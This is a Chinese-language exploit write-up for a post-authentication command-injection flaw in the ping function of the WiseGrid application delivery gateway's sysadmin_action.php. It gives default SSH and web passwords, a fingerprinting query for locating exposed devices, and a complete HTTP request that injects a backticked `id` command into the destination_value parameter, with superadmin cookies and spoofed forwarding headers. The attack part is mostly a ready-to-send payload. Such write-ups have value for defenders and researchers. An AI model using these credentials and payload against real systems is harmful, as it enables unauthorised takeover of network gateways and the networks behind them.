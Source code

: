 # 信诺瑞得 WiseGrid慧敏应用交付网关 sysadmin_action.php 后台命令执行漏洞

## 漏洞描述

信诺瑞得 WiseGrid慧敏应用交付网关 sysadmin_action.php 对应的ping功能存在后台命令执行漏洞，通过默认口令可以获取系统权限

## 漏洞影响

<a-checkbox checked>信诺瑞得 WiseGrid慧敏应用交付网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="WiseGrid慧敏应用交付网关"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1639645646589-222b3867-219a-4ec3-bc4a-325585ef1b6d.png)

默认口令

```go
ssh：root/sinogrid
web: admin/sinogrid
POST /bin/sysadmin_action.php?action=getinfo&operation=ping&destination_value=`id`&ping_count=3&sar_value=3&netstat_value=tcp&interface= HTTP/1.1
Host: 
Cookie: PHPSESSID=4510o12llugti8k4f24971rdf2; funcs=NNN; appversion=WiseGrid-V4.2.2R_17322; hbstate=alone; username=admin; passwordmd5=ef9ffdf6c1e2fe91d4e14b30323fb771; role=superadmin; authmode=LOCAL; session_time=1639643323; lang=zh; declaration=1; needSyn=false
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96", "Google Chrome";v="96"
Accept: */*
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
X-Forwarded-For: 127.0.0.1
X-Originating-Ip: 127.0.0.1
X-Remote-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Connection: close
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1639646020676-d8a2f896-53e9-4acb-b1aa-e2466c70a767.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1639646037306-7b65d58d-ae71-4104-9d47-a8b8a0bdbfef.png)